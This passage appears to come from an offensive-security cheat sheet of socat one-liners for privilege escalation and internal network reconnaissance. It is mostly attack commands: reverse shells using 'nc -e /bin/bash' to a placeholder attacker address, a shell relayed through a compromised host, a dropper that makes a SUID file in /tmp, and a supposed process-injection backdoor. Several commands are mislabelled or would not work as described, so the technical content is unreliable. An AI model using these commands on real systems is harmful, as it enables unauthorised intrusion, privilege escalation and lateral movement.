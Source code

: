 #### Privilege Escalation

SoCat can be used in the escalation of privileges by exploiting services, transferring exploits, or pivoting through compromised systems.

1. **SUID Binary Exploitation**: Transfers and executes an exploit targeting a vulnerable SUID binary.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"nc -e /bin/bash <attack_ip> <attack_port>" | socat - EXEC:/path/to/suid_exploit
    ```
2. **Local Exploit Transfer**: Transfers and compiles a local privilege escalation exploit.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"tee local_exploit.c"
    gcc local_exploit.c -o local_exploit
    ./local_exploit
    ```
3. **Pivoting Through a Compromised System**: Uses SoCat to pivot through a compromised system and gain access to other machines within the network.
    ```bash
    socat TCP:<compromised_ip>:<compromised_port> EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
    ```
4. **Abusing Weak File Permissions**: Creates a SUID binary to escalate privileges by exploiting weak file permissions.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"echo 'nc -e /bin/bash <attack_ip> <attack_port>' > /tmp/exploit && chmod +s /tmp/exploit"
    ```
5. **Injecting SoCat into a Running Process**: Injects a SoCat backdoor into a running process, allowing for privilege escalation.
    ```bash
    socat TCP:<target_ip>:<target_port> EXEC:"echo -ne '\x50\x52\x45\x59' | socat - TCP:<attack_ip>:<attack_port>"
    ```

#### Internal Reconnaissance

Once inside a network, SoCat can be used to further map out the internal environment, identify critical systems, and gather intelligence.

1. **Scanning Internal Hosts**: Scans internal hosts for open SSH ports and logs the results.
    ```bash
    socat - TCP:<internal_ip>:22 SYSTEM:"echo '<internal_ip> is up' >> internal_hosts.txt"
    ```
2. **Service Enumeration**: Enumerates open ports on an internal IP and logs the services running.
    ```bash
    socat - TCP:<internal_ip>:<port_range> SYSTEM:"echo '<port> open on <internal_ip>' >> services.txt"
    ```
3. **Capturing Internal Traffic**:Captures internal network traffic for analysis.
    ```bash
    socat UDP-LISTEN:<capture_port>,reuseaddr,fork SYSTEM:"tee internal_traffic.pcap"
    ```
 4. **Identifying Critical Systems**: Identifies critical systems by probing specific services, such as SMB.
    ```bash
    socat - TCP:<internal_ip>:445 SYSTEM:"echo '<internal_ip> has SMB running' >> critical_systems.txt"
    ```
5. **Service Version Detection**: Enumerates service versions by sending crafted requests.
    ```bash
    socat - TCP:<internal_ip>:<port> SYSTEM:"echo 'GET / HTTP/1.1\r\nHost: <internal_ip>\r\n\r\n' | socat - TCP:<internal_ip>:<port>"
    ```
